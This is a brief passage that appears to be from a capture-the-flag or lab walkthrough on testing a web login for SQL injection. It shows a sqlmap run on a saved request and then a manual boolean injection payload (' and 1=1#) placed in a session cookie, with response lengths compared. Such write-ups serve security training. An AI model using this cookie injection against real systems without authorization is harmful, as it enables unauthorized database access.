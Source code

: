 ➡️ [sqlmap](https://sqlmap.org/) - automatic SQL injection and database takeover tool

- Copy the Request into a new file

```bash
sqlmap -r req.txt
# no injectable testd parameters
```

![sqlmap -r req.txt](6-webappassets/2025-02-24_22-12-54_904.png)

- Send the `GET` request with the Cookie to the repeater

```bash
# Successful login
Content-Length: 1027

# With Cookie modified
Content-Length: 1928 # no login

# With Cookie injected
Cookie: session=6967cabefd763ac1a1a88e11159957db' and 1=1#

Content-Length: 1027 # and login success
```
